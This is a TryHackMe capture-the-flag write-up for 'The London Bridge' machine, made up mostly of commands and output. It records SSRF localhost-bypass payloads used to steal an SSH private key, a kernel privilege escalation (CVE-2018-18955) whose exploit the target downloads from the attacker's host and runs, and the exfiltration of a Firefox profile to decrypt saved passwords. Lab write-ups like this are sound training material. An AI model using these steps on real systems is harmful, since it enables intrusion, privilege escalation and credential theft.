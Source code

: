 # The London Bridge - TryHackMe Writeup

**Difficulty:** Medium  
**TL;DR:** Found SSRF via hidden `www` parameter → SSH key theft → user flag → exploited kernel vulnerability `(CVE-2018-18955)` → root access → extracted `Charles` password from FireFox profile.
---------------------------
## Target
- Machine: `LondonBridge`  
- Date: `2025-10-19`  
- Environment: TryHackMe / CTF
---------------------------

## Steps 
1. Initial scan:

```bash

└─$ nmap -sV -sC -Pn -T4 londonbridge.thm                             

22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
8080/tcp open  http    Gunicorn
|_http-title: Explore London
|_http-server-header: gunicorn
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel


```

2. Directory discovery:

```bash
└─$ gobuster dir -u http://londonbridge.thm:8080/ -w /usr/share/wordlists/dirb/big.txt -t 40 -x .php,.php.bak,.txt

/contact              (Status: 200) [Size: 1703]
/feedback             (Status: 405) [Size: 178]
/gallery              (Status: 200) [Size: 1722]
/upload               (Status: 405) [Size: 178]
/view_image           (Status: 405) [Size: 178]
/dejaview             (Status: 200) [Size: 823]

```



3. In the dejaview page, we discovered an image upload functionality via URL using the image_url parameter.
![image_url-parameter](images/POST-REQ-View-2.png)
 Following the hint about checking for development leftovers, we fuzzed for hidden parameters.

4. Parameter Discovery with FFuf:

```bash
└─$ ffuf -X POST -u "http://londonbridge.thm:8080/view_image" -data "FUZZ=test" -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -H 'Content-Type: application/x-www-form-urlencoded' -fs 0,823 -mc all 


www                     [Status: 500, Size: 290, Words: 37, Lines: 5, Duration: 122ms]

```
Found parameter `www`

-------------------------
### SSRF (Server-Side Request Forgery)


1. Internal Network Mapping

 Using localhost bypass techniques:

Referenced localhost bypass methods from: [SSRF Cheat Sheet](https://highon.coffee/blog/ssrf-cheat-sheet/#basic-locahost-bypass-attempts)

```bash
└─$ ffuf -X POST -u "http://londonbridge.thm:8080/view_image" -data "www=http://FUZZ" -w localhosts.txt -fs 0,823 -mc all -H 'Content-Type: application/x-www-form-urlencoded'


127.1:8080              [Status: 200, Size: 2682, Words: 871, Lines: 83, Duration: 204ms]
127.0.1                 [Status: 200, Size: 1270, Words: 230, Lines: 37, Duration: 203ms]
017700000001            [Status: 200, Size: 1270, Words: 230, Lines: 37, Duration: 203ms]
0/                      [Status: 200, Size: 1270, Words: 230, Lines: 37, Duration: 376ms]
127.1                   [Status: 200, Size: 1270, Words: 230, Lines: 37, Duration: 376ms]
127.1.1.1:8080#\@127.2.2.2:8080/ [Status: 200, Size: 2682, Words: 871, Lines: 83, Duration: 380ms]
127.1.1.1:8080\@127.2.2.2:8080/ [Status: 200, Size: 2682, Words: 871, Lines: 83, Duration: 380ms]
127.1.1.1:8080:\@@127.2.2.2:8080/ [Status: 200, Size: 2682, Words: 871, Lines: 83, Duration: 394ms]
127.1.1.1:8080\@@127.2.2.2:8080/ [Status: 200, Size: 2682, Words: 871, Lines: 83, Duration: 628ms]

```

`127.1:80` Internal service discovered 

```bash
└─$ curl -X POST http://londonbridge.thm:8080/view_image -d "www=http://127.1:80/"  

```
2. Fuzzing :

```bash
└─$ ffuf -X POST -u "http://londonbridge.thm:8080/view_image" -data "www=http://127.1:80/FUZZ" -w /usr/share/wordlists/dirb/common.txt -H 'Content-Type: application/x-www-form-urlencoded' -fs 0,469 -mc 


.profile                [Status: 200, Size: 807, Words: 128, Lines: 28, Duration: 205ms]
.bashrc                 [Status: 200, Size: 3771, Words: 522, Lines: 118, Duration: 205ms]
                        [Status: 200, Size: 1270, Words: 230, Lines: 37, Duration: 205ms]
.cache                  [Status: 200, Size: 474, Words: 19, Lines: 18, Duration: 206ms]
.ssh                    [Status: 200, Size: 399, Words: 18, Lines: 17, Duration: 206ms]
index.html              [Status: 200, Size: 1270, Words: 230, Lines: 37, Duration: 351ms]
static                  [Status: 200, Size: 420, Words: 19, Lines: 18, Duration: 150ms]
templates               [Status: 200, Size: 1294, Words: 358, Lines: 44, Duration: 132ms]
uploads                 [Status: 200, Size: 630, Words: 23, Lines: 22, Duration: 228ms]

```
SSH directory accessible!  

```bash
└─$ curl -X POST http://londonbridge.thm:8080/view_image -d "www=http://127.1:80/.ssh"
.
.
<h1>Directory listing for /.ssh/</h1>
<hr>
<ul>
<li><a href="authorized_keys">authorized_keys</a></li>
<li><a href="id_rsa">id_rsa</a></li>
.
.

```
3. Download the private key :
```bash
└─$ curl -X POST http://londonbridge.thm:8080/view_image -d "www=http://127.1:80/.ssh/id_rsa" > id_rsa

chmod 600 id_rsa
```
User Identified: `beth` (from authorized_keys)

----------------

## user flag 

Connect via SSH and get the user flag from `__pycache__`:
```bash
└─$ ssh -i id_rsa beth@londonbridge.thm 


beth@london:~$ cat __pycache__/user.txt 
THM{[REDACTED]}
```

-----------------

## root flag

```bash

beth@london:~$ uname -a
Linux london 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
```


### CVE:2018-18955

Description

In the Linux kernel 4.15.x through 4.19.x before 4.19.2, map_write() in kernel/user_namespace.c allows privilege escalation because it mishandles nested user namespaces with more than 5 UID or GID ranges. A user who has CAP_SYS_ADMIN in an affected user namespace can bypass access controls on resources outside the namespace, as demonstrated by reading /etc/shadow. This occurs because an ID transformation takes place properly for the namespaced-to-kernel direction but not for the kernel-to-namespaced direction.

------------------------

1. Clone the repo in your machine and run python web server

```bash
└─$ git clone https://github.com/scheatkode/CVE-2018-18955.git

└─$ python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```
 
2. Download it in target machine using `wget -r `

```bash
beth@london:~$ wget -r http://[YOUR_IP]:8000/CVE-2018-18955
```
3. Change the permissions to be exectuable and run `exploit.dbus.sh`

```bash
beth@london:~/CVE-2018-18955$ chmod +x exploit.dbus.sh
beth@london:~/CVE-2018-18955$ ./exploit.dbus.sh 


[*] Launching root shell: /tmp/sh
root@london:/root# id
uid=0(root) gid=0(root) groups=0(root),1000(beth)
```
4. get root flag :
```bash
root@london:/root# cat .root.txt 
THM{REDACTED}
```
---------------------------

## password of charles
there firefox profile in `charles` home directory

We gonna use python script to steal firefox passwords 
you can download it from `https://github.com/unode/firefox_decrypt`


1. Download `8k3bf3zp.charles` to your machine via python server.

```bash
root@london:/home/charles/.mozilla/firefox# python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```
2. In your machine :
```bash
└─$ wget -r http://londonbridge.thm:8000/8k3bf3zp.charles
```
3. After download the profile run the script :
```bash
└─$ python3 firefox_decrypt.py londonbridge.thm:8000/8k3bf3zp.charles 
2025-10-20 06:18:01,266 - WARNING - profile.ini not found in londonbridge.thm:8000/8k3bf3zp.charles
2025-10-20 06:18:01,267 - WARNING - Continuing and assuming 'londonbridge.thm:8000/8k3bf3zp.charles' is a profile location

Website:   https://www.buckinghampalace.com
Username: 'Charles'
Password: '[REDACTED]'
```

 .
